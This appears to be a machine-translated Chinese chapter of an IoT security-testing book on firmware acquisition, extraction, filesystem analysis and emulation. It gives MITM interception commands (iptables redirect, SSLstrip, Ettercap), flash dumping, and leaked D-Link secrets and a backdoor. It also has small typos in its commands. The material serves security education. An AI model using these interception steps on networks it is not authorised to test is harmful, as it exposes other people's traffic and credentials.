# 三、分析和利用固件

在本章中，我们将介绍以下配方：

*   定义固件分析方法
*   获取固件
*   分析固件
*   分析文件系统内容
*   用于动态分析的仿真固件
*   ARM 和 MIPS 入门
*   利用 MIPS

# 介绍

到目前为止，我们已经介绍了物联网生态系统的基本组成，并通过威胁建模识别威胁及其各自的风险，以帮助我们进行测试。一些漏洞和威胁可能更容易通过侦察使用中的技术来识别。在本章中，我们将重点关注反向工程固件，以分析其内容，以便在运行时进行操作。可以说，我们将卷起袖子，讨论如何分解固件、如何分析固件内容、其体系结构、使用常见固件工具以及如何出于恶意目的修改固件。与其他软件逆向工程方法类似，分析固件本身绝对是一门艺术。您将了解到，许多工具将帮助我们查找常见缺陷；然而，分析固件二进制映像的安全性在很大程度上是一个手动过程。

在我们开始分析固件之前，重要的是讨论获取固件的一般方法，以及确定哪些数据对我们很重要。这一步可能已经在固件的轻度威胁模型练习中提前完成，但让我们从讨论固件分析的目标开始。

# 定义固件分析方法

固件是控制物联网设备的中心，这就是为什么我们可能希望先分析其内容，然后再分析设备的其他组件。根据您的物联网设备的制造行业，获取固件映像和分解其内容可能很简单。类似地，一些垂直行业需要某些保障措施，这可能会使逆向工程变得更加困难和/或耗时。然而，在分析固件时，我们会寻找一些常见的模式。通常，评估员最常见的目标是确定以下各项：

*   密码
*   API 令牌
*   API 端点（URL）
*   弱势服务
*   秘密帐户
*   配置文件
*   源代码
*   私钥
*   数据的存储方式

在下面的食谱中，我们在分析固件时会有相同的目标。本食谱将向您展示固件分析和逆向工程的概述方法。

以下是分析物联网固件的基本方法列表：

1.  获取固件
2.  分析固件
3.  提取文件系统
4.  装载文件系统
5.  分析文件系统内容
6.  用于动态分析的仿真固件

# 获取固件

为了开始查看固件内容，我们首先必须获得固件二进制文件。本节将介绍为给定目标获取固件的各种技术。

# 准备

为了获得固件，我们需要安装一些工具。我们将使用 Kali Linux，它默认安装了我们需要的大多数工具。以下是您需要的工具：

*   **卡利 Linux**：卡利 Linux 可通过其网站[下载 https://www.kali.org/downloads/](https://www.kali.org/downloads/) 。如果您使用 VMware 或 VirtualBox，建议使用 Kali 虚拟映像，可在此处找到[https://www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/](https://www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/) 。
*   **Ettercap**：虽然 Kali Linux 默认安装了 Ettercap，但也可以通过[下载 https://ettercap.github.io/ettercap/downloads.html](https://ettercap.github.io/ettercap/downloads.html) 。
*   **Wireshark**：Wireshark 默认包含在 Kali Linux 中，也可在[下载 http://www.wireshark.org](http://www.wireshark.org) 。
*   **SSLstrip**：SSLstrip 默认包含在 Kali Linux 中，也可在[下载 https://github.com/moxie0/sslstrip](https://github.com/moxie0/sslstrip) 。
*   **Flashrom**：默认情况下，Kali Linux 中不包含 Flashrom，但我们可以使用以下命令轻松安装该工具：

```
apt-get install flashrom  
```

或者，可通过[下载 flashromhttps://www.flashrom.org/Downloads](https://www.flashrom.org/Downloads) 。

# 怎么做。。。

有几种方法可从物联网设备获取固件。我们将介绍此配方中的大多数方法。固件映像可以通过以下方法获得：

*   从供应商网站下载
*   在设备更新期间代理或镜像流量
*   直接从设备转储固件
*   谷歌搜索/研究
*   反编译关联的移动应用

# 从供应商网站下载

获取固件的最简单方法是通过供应商的网站。

以下屏幕截图演示了如何从供应商网站获取固件映像：

1.  导航到目标供应商的网站。
2.  在搜索栏中输入目标设备：


3.  选择“支持”选项卡：


4.  选择驱动程序和工具按钮：



5.  单击下载链接：


6.  或者，您可以选择复制链接地址，通过`wget`（`wget <http://URL.com>`在您的测试机上下载文件：



# 在设备更新期间代理或镜像流量

有时，通过供应商的站点获取固件可能不是一个选项，您必须执行步骤 2，在设备更新期间代理通信，或步骤 3，直接从设备本身转储固件。为了在设备更新期间代理流量，您必须是**中间人**（**MITM**）或在更新功能期间镜像设备流量。或者，也可以代理 web 或移动应用，以便获取固件下载的 URL。

您可能还必须调整 user agent 标头，因为已知供应商会验证固件下载的此值。以下是使用 Kali Linux、eTerCap、Wireshark 和 SSLstrip 在设备上执行 MITM 以监控流量的基本步骤。Kali Linux 拥有此配方所需的所有工具：

有几种方法和工具可用于 MITM 与目标设备之间的通信量。下面的示例只是实现捕获设备流量的一种方法。

1.  启用 IP 转发：

```
echo 1 > /proc/sys/net/ipv4/ip_forward

```

2.  配置`iptables`将流量从目标端口`80`重定向到端口`1000`，这是 SSLstrip 监听的：

```
iptables -t nat -p tcp -A PREROUTING --dport 80 -j REDIRECT --to-port 10000

```

3.  启动 SSLstrip：

```
ssltrip -a

```

4.  启动 eTerCap GUI：

```
ettercap -G

```

5.  下图显示了我们当前采取的步骤：



6.  单击嗅探菜单和统一嗅探。。。选项：


7.  选择界面：


8.  选择扫描主机：


9.  打开 Wireshark 以查看流量：


10.  单击开始捕获数据包，开始从目标设备捕获流量：


11.  根据需要过滤流量；在这种情况下，`192.168.1.137`是目标设备：



# 直接从设备转储固件

如果我们无法通过供应商站点获取固件或代理其流量，我们可以开始通过 UART、SPI 或 JTAG 转储设备固件。直接转储固件需要访问设备并分解设备以查找其闪存。找到闪存存储芯片后，您可以直接连接 UART 引脚，也可以使用 8 引脚 SOIC 芯片夹使用 flashrom 和支持 SPI 的硬件板（如 Shikra）转储固件。以下是 SOIC 剪辑和 Shikra 如何连接到设备：

>

图像来源：[http://www.xipiter.com/uploads/2/4/4/8/24485815/9936671_orig.jpg?562](http://www.xipiter.com/uploads/2/4/4/8/24485815/9936671_orig.jpg?562)

用于将固件内容转储到 bin 文件的命令如下所示：

```
$ flashrom -p ft2232_spi:type=232H -r spidump.bin 

```

如果我们使用 flashrom 或前面描述的任何方法获取了设备的固件，我们现在必须分析固件二进制文件。

# 网上搜索

如果由于某种原因，我们无法通过前面列出的方法获取固件映像，那么我们最后的选择就是谷歌。如果我们想依靠其他人的工作或检查我们的设备之前是否进行过研究，这可能不是我们的最后选择。还有一种可能性是，现任或前任员工可能已将固件文件上载到其个人存储库或 web 服务器。在任何情况下，我们都可以使用 Google dorking 技术缩小对给定目标设备的搜索范围。我们还可以利用谷歌黑客数据库通过链接[搜索固件或设备 https://www.exploit-db.com/google-hacking-database](https://www.exploit-db.com/google-hacking-database) 。

# 它是如何工作的。。。

在这个方法中，我们通过供应商的网站获取固件映像，并建立一个 MITM 测试平台来捕获设备流量，直接从设备上卸载固件，最后通过谷歌搜索。在这里，我将解释为什么我们通过这些方法获得固件。

从供应商处下载固件文件时，您通常可以通过他们的支持网站、文件共享或社区论坛找到所需内容。有时，供应商需要密码才能下载文件或在 ZIP 文件中保护固件密码。如果是这种情况，为了节省时间，我们很可能会跳到获取固件的下一步。

接下来，我们介绍了如何使用 Kali Linux、SSLstrip、Ettercap 和 Wireshark 建立一个 MITM 测试平台，以在设备更新期间捕获设备流量。

# 分析固件

一旦我们有了固件，现在的主要步骤就是分析固件。这涉及到查看固件内部并尝试识别尽可能多的安全问题，这就是我们将在本节中要做的。

# 准备

在本节中，我们将了解在访问固件二进制软件包后如何分析固件。存在几种不同的技术，我们可以查看固件并确定其中的安全问题，我们将在本节介绍如何开始并确定一些常见的安全问题。

如前所述，固件为笔测试人员保存了许多有趣的东西，包括 API 密钥、私有证书、硬编码凭证、后门等等。

# 怎么做。。。

要分析固件，我们必须对其进行反向工程，以查看其内部组件。固件的内部组件包括引导加载程序、内核、文件系统和其他资源。其中，我们最感兴趣的是文件系统，因为它将为我们保存所有秘密。显然，您可以使用引导加载程序，查看它包含什么，或者修改它并创建新的固件（我们将在接下来的部分中讨论），但是在这一点上，我们只关心如何对固件进行反向工程并从内部提取文件系统。

正如我们所知，固件是一个二进制文件包，而文件系统只是其中一个组件，它可以存储在二进制文件中的特定偏移量和特定大小。但是，目前我们还不知道固件中文件系统的任何信息，包括偏移量和大小。为了找到这些，我们需要使用一个工具，例如`hexdump`和`grep`来对我们正在寻找的各种内容进行签名。以下是 Squashfs 文件系统的示例：

1.  如果我们想寻找 Squashfs 文件系统，我们可以按如下相反顺序`grep`输出`shsq`（这是任何 Squashfs 文件系统的魔法字节）：



2.  如您所见，我们能够确定 Squashfs 文件系统从地址`0x000e20c0`开始。一旦我们有了这些信息，我们就可以使用`dd`实用程序从这个位置一直转储内容，如下所示：



3.  一旦我们从固件二进制文件中分割出 Squashfs 内容，我们就可以简单地运行一个实用程序，比如`unsquashfs`来查看整个文件系统。

让我们继续运行`unsquashfs`，看看是否可以查看整个文件系统：


4.  从前面的屏幕截图可以看出，我们能够提取 Squashfs 文件系统映像。忽略上图中的警告和错误，因为它只是抱怨我们没有以 root 用户身份运行命令。提取后，我们可以导航到各个目录并查看各个文件，以识别漏洞。以下是整个文件系统的屏幕截图：


这就是我们如何对固件进行反向工程，并从固件二进制映像中提取文件系统。我们还可以使用 Binwalk 等工具自动执行前面提到的所有步骤。由*Craig Heffner*编写，它允许我们只需一个命令即可从固件二进制映像中提取文件系统。

5.  要安装 Binwalk，只需克隆位于[的 Binwalk 的 GitHub 存储库即可 https://github.com/devttys0/binwalk.git](https://github.com/devttys0/binwalk.git) 如下：

```
git clone https://github.com/devttys0/binwalk.git

```

6.  运行`./deps.sh`以安装所有必需的依赖项和二进制文件。
7.  成功安装 Binwalk 后，只需输入`binwalk`并点击*输入*即可确认。这将显示 Binwalk 的帮助菜单：


8.  让我们继续使用 Binwalk 从同一固件执行文件系统提取。为此，我们将使用`-e`标志，该标志将执行提取：

```
binwalk -e [firmware-name]

```

9.  这将向我们展示固件中的各个部分，并为我们提取内容：



10.  `t`和`vv`标志只允许我们以更可读、更详细的格式打印输出。Binwalk 执行后，我们可以转到名为`_[firmwarename].extracted`的目录，它将为我们保存整个文件系统，如下面的屏幕截图所示：


这就是我们从固件二进制文件中手动和自动提取文件系统的方法。

# 它是如何工作的。。。

本例中的文件系统提取使用了与我们前面执行的相同的方法。它使用魔法字节和头签名字符检测文件系统和其他组件的偏移量，比如`sqsh`表示挤压等。Binwalk 检测到的文件系统数量可以在以下 URL 中找到：[https://github.com/devttys0/binwalk/blob/62e9caa164305a18d7d1f037ab27d14ac933d3cf/src/binwalk/magic/filesystems](https://github.com/devttys0/binwalk/blob/62e9caa164305a18d7d1f037ab27d14ac933d3cf/src/binwalk/magic/filesystems) 。

您还可以手动向 Binwalk 实例添加更多签名，并对其进行编译以检测这些额外的文件系统。

# 还有更多。。。

此外，还可以使用 Binwalk 执行许多其他操作，例如检测给定固件映像的熵。这可以帮助您确定固件映像是压缩的还是加密的。为了执行熵分析，运行`binwalk`时使用`-E`标志，后跟固件名称，如以下屏幕截图所示：


正如您在前面的屏幕截图中所看到的，这个特定的固件似乎没有被加密，因为您在加密的固件映像中会发现缺少大的变化。

# 另见

*   关于固件分析和逆向工程的更多信息，Binwalk 作者的博客*Craig Heffner*非常有用。它还将帮助您了解不同固件映像的差异和易受攻击性。该博客位于[http://www.devttys0.com/](http://www.devttys0.com/) 。

# 分析文件系统内容

现在我们知道了如何对固件进行反向工程并从中提取文件系统，在本节中，我们将查看文件系统内容并对其执行其他漏洞分析。这将有助于我们更深入地了解如何在固件映像中发现安全问题，使用固件映像，我们将能够破坏物联网设备。

# 准备

分析文件系统内容有两种方法：

*   人工分析。
*   自动化工具和脚本。

# 人工分析

在这种查找固件文件系统内容中漏洞的方法中，我们对文件系统中存在的各种文件和文件夹进行分析。这可能包括查看配置文件、web 目录、密码文件、寻找后门等。这是发现给定固件中漏洞的理想方法，也是本节的重点。

# 自动化工具和脚本

截至本书出版之日，除了几个脚本之外，还不存在一个完整的套件框架或一个可以帮助我们发现固件中漏洞的工具。因此，如果您熟悉 web 应用安全或网络安全，那么没有类似于 Arachni、w3af、Metasploit 或类似工具的工具。

# 怎么做。。。

让我们从分析固件开始，看看我们是否能够识别任何敏感信息或该问题的后门。

我们将在本练习中使用的固件是版本为`DWR-932_fw_revB_2_02_eu_en_20150709`的 D-Link DWR 932B。安全研究人员发现了以下漏洞，即*Gianni Carabelli*和*Pierre Kim*：

1.  第一步是从固件中提取文件系统。但是，本例中的固件是一个 ZIP 文件，受密码保护。本例中的密码可能会被诸如 fcrackzip 之类的实用程序破解，并且发现密码是 UT9Z。这也显示在以下屏幕截图中：


2.  一旦有了固件映像，我们就可以使用 Binwalk 来提取固件 ZIP 文件中存在的 yaffs2 文件系统。您可以使用 yaffs2 特定的工具来解压缩文件系统，或者简单地使用 Binwalk 也可以完成这项工作。

3.  在`yaffs2-root`文件夹中，我们将拥有整个文件系统，如以下屏幕截图所示：



4.  从这里开始，我们可以开始在不同的目录中导航，并从安全的角度查看有趣的文件。我们可以做的第一件事就是通过对所有的`.conf`文件运行`find`查询来查找所有的配置文件，如下面的屏幕截图所示：


5.  例如，`wpa-supplicant.conf`文件中存在以下内容：


6.  让我们看看其他文件，如`inadyn-mt.conf`：



令人惊讶的是，该文件包含高度敏感的信息，本不应以任何方式访问这些信息。从前面的屏幕截图可以看出，该文件存储路由器的无 IP 配置，包括用于[的用户名和密码组合 https://www.no-ip.com](https://www.no-ip.com) 进入。

这就是我们如何找到隐藏在固件中的敏感信息。显然，您可以在固件的文件系统中查看更多信息并识别更多敏感信息。

现在我们知道了如何对固件执行手动分析，我们将继续通过自动化方法识别缺陷。为此，我们将使用一个名为 Firmwalker 的工具，由*Craig Smith*编写，它通过静态分析帮助识别固件中的一些常见敏感信息。

7.  要设置它，我们只需克隆 Firmwalker 的 GitHub 回购协议，如下所示：

```
git clone https://github.com/craigz28/firmwalker.git
```

8.  一旦我们克隆了 Firmwalker GitHub repo，我们只需要运行`./firmwalker.sh`脚本，然后运行提取的文件系统位置，如下所示：

```
./firmwalker.sh ~/lab/firmware/dlink/r2/v2/_2K-mdm-image-mdm9625.yaffs2.extracted/yaffs-root

```

9.  Firmwalker 脚本为我们识别了许多不同的东西，包括额外的二进制文件、证书、IP 地址、私钥等等。它还将输出存储在名为`firmwalker.txt`的文件中（除非用户指定了不同的文件），如以下屏幕截图所示：


一旦我们有了 Firmwalker 生成的报告，我们就可以单独查看所有不同的文件并进一步分析它们。在某些情况下，您还需要对基于 ARM 和 MIPS 的二进制文件进行反向工程，以更好地理解它们并识别漏洞。

# 它是如何工作的。。。

分析和理解文件系统及其内部内容与手动评估技能有关。这就是您将如何识别漏洞的方法。即使在使用各种工具时，您也会意识到，最终需要手动分析二进制文件或文件并找出漏洞。

# 还有更多。。。

要在更深层次上分析固件文件系统内容，还可以使用固件差异化等技术，通过这些技术可以将一个固件与其以前的版本进行比较，并查看差异。这将使您能够理解新版本中的安全修复和修改，并识别以前版本中未公开的安全问题。

对于固件文件系统内容，我们可以做的另一件事是查看已使用的各种库和组件，并查看这些组件是否是带有漏洞的过时版本。

# 另见

*   对于分析固件文件系统内容，还可以阅读更多关于二进制分析和逆向工程的内容。熟悉 Linux 二进制分析、调试和在 ARM 和 MIPS 等平台上的反汇编。

# 用于动态分析的仿真固件

通常，在使用物联网设备时，其中一个限制是我们无法在无法访问实际设备的情况下执行大量测试和利用。但是，在本节中，我们将讨论一种方法，通过这种方法，您可以模拟固件并与模拟设备交互，就像它是网络上的实际设备一样。

# 准备

为了模拟固件，我们将使用本书作者编写的名为**固件分析工具包**（**FAT**的脚本。FAT 使用 Firmadyne 来执行固件映像的仿真。

Firmadyne 中使用的底层实用程序是 QEMU，它允许用户模拟整个系统架构并在其上运行内容。它还利用了工具作者编写的其他脚本，例如位于[的 NVRAM 模拟器 https://github.com/firmadyne/libnvram](https://github.com/firmadyne/libnvram) 。它还使用诸如 Binwalk 之类的工具（我们前面讨论过），从固件中提取文件系统，然后进行仿真。

让我们继续克隆胖 GitHub repo，并对其进行设置，以使实验室准备好进行仿真。强烈建议在基于 Ubuntu 的系统上执行此操作，以避免仿真过程中出现任何问题。

# 怎么做。。。

以下是步骤：

1.  我们将通过从链接[克隆 FAT 回购开始设置 https://github.com/attify/firmware-analysis-toolkit/](https://github.com/attify/firmware-analysis-toolkit/) 如下：

```
git clone --recursive https://github.com/attify/firmware-analysis-toolkit.git
cd firmware-analysis-toolkit && sudo ./setup.sh

```

这还将设置 Firmadyne 使用的数据库，以存储有关固件的信息并用于将来的管理。数据库的密码将设置为`firmadyne`。

一旦您设置好了所有内容，我们就可以选择固件并对其进行仿真，看看我们能够用仿真的固件执行什么。

对于本练习，我们将使用固件 DWP2360b，它是用于其无线 PoE 接入点的 D-Link 固件。

2.  我们需要做的第一件事是运行`./fat.py`，然后它将询问您固件名称和固件映像的品牌。此固件品牌映像纯粹用于数据库目的，以便我们以后可以在需要时查看数据库，并查看我们模拟的是哪个品牌的固件。运行后，它将如以下屏幕截图所示：


3.  它会多次询问您数据库的密码，我们已将其设置为`firmadyne`。一旦完成初始处理、创建映像、设置网络和获取 IP 地址，它将显示 FAT 向您显示 IP 地址，并提到固件现在已被模拟，如以下屏幕截图所示：


4.  一旦我们有了 IP 地址，我们只需在浏览器中打开它，就会看到路由器登录页面，如以下屏幕截图所示：



这就是我们如何在 FAT 的帮助下模拟固件，即使没有访问设备的权限。

# 它是如何工作的。。。

前面的仿真工作在 QEMU 和 NVRAM 仿真器的基础上。NVRAM 是固件访问以从设备获取信息的组件。但是，由于没有物理设备，这将导致呼叫服务出错或崩溃。这就是 NVRAM 模拟器出现的地方。Firmadyne 工具包还修改固件以进行调试，从而允许用户访问控制台。

以下是 FAT 脚本中发生的情况：

1.  从固件中提取文件系统。
2.  获取固件的体系结构。
3.  生成所需的图像。
4.  设置网络。
5.  模拟图像。

所有这些步骤都可以手动执行，但使用 FAT 之类的脚本有助于加快速度。

# 还有更多。。。

执行仿真的另一种方法是手动下载适用于适当体系结构的 Debian 映像，并将文件从固件复制到新创建的 Debian 实例，然后使用 Chroot 运行 web 服务器（或您正在测试的组件）。您可以从[下载现有 Debian 图像 https://people.debian.org/~aurel32/qemu/](https://people.debian.org/~aurel32/qemu/)。

# ARM 和 MIPS 入门

现在我们知道了如何模拟固件并执行基本分析，您经常会发现自己遇到需要额外分析的各种二进制文件。我们不可能在一本书中涵盖嵌入式设备可能的所有各种架构，我们将重点介绍两种流行的架构—ARM 和 MIPS。

然而，我们将只研究 MIPS 的利用，并稍微研究一下 ARM 反向工程。从利用的角度来看，ARM 和 MIPS 非常相似，学习一种体系结构将使您对另一种体系结构有一个初步的了解。

# 准备

我们将从对 D-Link 固件中发现的后门进行非常基本的分析开始我们的二进制分析之旅。这个后门是由*皮埃尔·金*发现的。要识别这个后门，需要基于 ARM 的二进制文件的基本反向工程思想。尽管我们不会在这里深入讨论寄存器和体系结构（因为我们将在 MIPS 体系结构中介绍这些），但本节将帮助您了解分析二进制文件和识别低挂漏洞的过程。

我们将在本例中使用的固件是设备 D-Link DWR 932B。使用 Binwalk 提取此固件后，我们注意到有一个名为 appmgr 的二进制文件，这正是我们感兴趣的。

我们可以使用您可能熟悉的任何反汇编程序-Radare2、IDA、Hopper 等等。在本例中，我们将使用 Hopper 对 appmgr 二进制文件进行反向工程，这是一个 ARM 小端二进制文件。

# 怎么做。。。

我们将使用 Hopper 的伪代码生成功能，以便更好地理解它。以下是步骤：

1.  让我们将二进制文件装入料斗进行分析：


2.  加载二进制文件后，我们可以搜索`telnet`字符串，我们将能够看到代码示例中提到的`telnet`：

